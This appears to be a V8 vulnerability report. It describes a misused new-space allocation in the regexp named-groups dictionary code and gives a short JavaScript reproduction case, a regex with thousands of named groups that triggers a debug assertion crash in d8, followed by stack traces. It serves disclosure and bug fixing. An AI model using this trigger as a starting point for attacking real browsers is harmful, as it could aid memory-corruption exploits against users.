<b>VULNERABILITY DETAILS</b>
https://cs.chromium.org/chromium/src/v8/src/codegen/code-stub-assembler.cc?rcl=7a88817255bf8557ebdcff2dacaf4cf6f1ff8ecd&l=3504

AllocateInNewSpace is wrongly used in the function AllocateNameDictionaryWithCapacity because the allocate size "store_size" may be larger than kRegularHeapObjectSize

<b>VERSION</b>
d8 7.7 with debug enable

<b>REPRODUCTION CASE</b>

run the following js with d8

var str=""
for(var i=0;i<0x2000;i++)
str+="(?<a"+i+">)|";
str+="(?<b>)"
var regexp= new RegExp(str);
m = "xxx".match(regexp);

the following CSA_ASSERT will show

abort: CSA_ASSERT failed: IsRegularHeapObjectSize(size_in_bytes) [../../src/code-stub-assembler.cc:1228]


==== JS stack trace =========================================

    0: ExitFrame [pc: 0x2dfde08c5e00]
    1: StubFrame [pc: 0x2dfde0808525]
Security context: 0x25926313c1f1 <JSObject>#0#
    2: match [0x38d03b8405f9](this=0x38d03b856d81 <String[#3]: xxx>,0x389ab91c0159 <JSRegExp <Very long string[89008]>>#1#)
    3: /* anonymous */ [0x38d03b857081] [../../out.gn/ia32.debug/test.js:9] [bytecode=0x38d03b856f31 offset=126](this=0x2f0d250417d9 <JSGlobal Object>#2#)
    4: InternalFrame [pc: 0x2dfde05a81bd]
    5: EntryFrame [pc: 0x2dfde05a7f38]

==== Details ================================================

[0]: ExitFrame [pc: 0x2dfde08c5e00]
[1]: StubFrame [pc: 0x2dfde0808525]
[2]: match [0x38d03b8405f9](this=0x38d03b856d81 <String[#3]: xxx>,0x389ab91c0159 <JSRegExp <Very long string[89008]>>#1#) {
// optimized frame
--------- s o u r c e   c o d e ---------
<No Source>
<b>-------------------------</b>----------------
}
[3]: /* anonymous */ [0x38d03b857081] [../../out.gn/ia32.debug/test.js:9] [bytecode=0x38d03b856f31 offset=126](this=0x2f0d250417d9 <JSGlobal Object>#2#) {
  // expression stack (top to bottom)
  [05] : 0x389ab91c0159 <JSRegExp <Very long string[89008]>>#1#
  [04] : 0x38d03b856d81 <String[#3]: xxx>
  [03] : 0x389ab91c0159 <JSRegExp <Very long string[89008]>>#1#
  [02] : 0x38d03b856d81 <String[#3]: xxx>
  [01] : 0x38d03b8405f9 <JSFunction match (sfi = 0x38d03b8405c1)>#3#
  [00] : 0x380baaac0471 <undefined>
--------- s o u r c e   c o d e ---------
var str=""\x0afor(var i=0;i<0x2000;i++)\x0astr+="(?<a"+i+">)|";\x0astr+="(?<b>)"\x0avar dateRegexp = new RegExp(str);\x0a//let dateRegexp = /(?<a>)|(?<b>)|(?<a0>)/;\x0a//let str = "2019-04-30";\x0a\x0am = "xxx".match(dateRegexp);\x0a%DebugPrint(m);\x0a%DebugPrint(m.groups);\x0a
<b>-------------------------</b>----------------
}

[4]: InternalFrame [pc: 0x2dfde05a81bd]
[5]: EntryFrame [pc: 0x2dfde05a7f38]
==== Key         ============================================

 #0# 0x25926313c1f1: 0x25926313c1f1 <JSObject>
 #1# 0x389ab91c0159: 0x389ab91c0159 <JSRegExp <Very long string[89008]>>
         lastIndex: 0
 #2# 0x2f0d250417d9: 0x2f0d250417d9 <JSGlobal Object>
 #3# 0x38d03b8405f9: 0x38d03b8405f9 <JSFunction match (sfi = 0x38d03b8405c1)>
=====================

Received signal 4 ILL_ILLOPN 7f9312ce2091

==== C stack trace ===============================

 [0x7f9312ce4ad1]
 [0x7f9312ce4a20]
 [0x7f930e80d330]
 [0x7f9312ce2091]
 [0x7f931120f562]
 [0x7f931120f1c7]
 [0x2dfde08c5e00]
[end of stack trace]
Illegal instruction
